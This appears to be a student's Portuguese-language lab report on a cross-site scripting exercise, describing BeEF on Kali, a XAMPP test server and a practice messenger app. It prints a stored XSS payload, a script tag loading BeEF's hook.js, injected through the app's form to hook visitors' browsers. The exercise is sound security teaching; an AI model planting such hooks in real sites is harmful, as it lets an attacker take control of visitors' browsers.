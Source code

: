 # XSS - cross site scripting
## Relatório da Prática
Para realizar a atividade do tutorial, segui os passos propostos.
 1. Instalação do BeEF
	 Na execução das atividades utilizei o Kali Linux, sendo assim, não foi necessário instalar o BeEF já que o Kali já possui o mesmo instalado.
	 ![(1)](https://github.com/SamuelIGT/information-security/blob/master/Praticas/XSS/screenshots/(1).PNG)
2. Instalação do Xampp
	A instalação foi feita seguindo os passos do seguinte tutorial: [link.](http://www.codebind.com/linux-tutorials/install-xampp-ubuntu-16-04/)
3. Configuração do Banco
	Nesta etapa, foi criado um novo banco chamado 'messeger' utilizando a ferramenta 'phpmyadmin'. Ainda no 'phpmyadmin', foi importado o arquivo 'messeger.sql' (fornecido no tutorial) para criar as tabelas.
	 ![(2)](https://github.com/SamuelIGT/information-security/blob/master/Praticas/XSS/screenshots/(2).PNG)
4. Executar servidor
	Para executar o servidor, foi feito o download do mesmo a partir do [github do tutorial](https://github.com/antoniorrm/xss-pratica-seguranca).
	Após extrair o arquivo baixado, a pasta foi movida para o diretório `/opt/lampp/htdocs`.
	 ![(3)](https://github.com/SamuelIGT/information-security/blob/master/Praticas/XSS/screenshots/(3).PNG)
5. O ataque
	Para realizar o ataque, foi necessário injetar o seguinte script no servidor vítima através o formulário da página 'messenger':
	> `<script src=\"http://127.0.0.1:3000/hook.js\"></script>`
	
	![(5)](https://github.com/SamuelIGT/information-security/blob/master/Praticas/XSS/screenshots/(5).PNG)
	![(6)](https://github.com/SamuelIGT/information-security/blob/master/Praticas/XSS/screenshots/(6).PNG)
	
	Após o script ter sido injetado, para realizar os ataques foi somente necessário abrir o BeEF, logar e executar os ataques.
	![(4)](https://github.com/SamuelIGT/information-security/blob/master/Praticas/XSS/screenshots/(4).PNG)
	![(7)](https://github.com/SamuelIGT/information-security/blob/master/Praticas/XSS/screenshots/(7).PNG)
	![(8)](https://github.com/SamuelIGT/information-security/blob/master/Praticas/XSS/screenshots/(8).PNG)
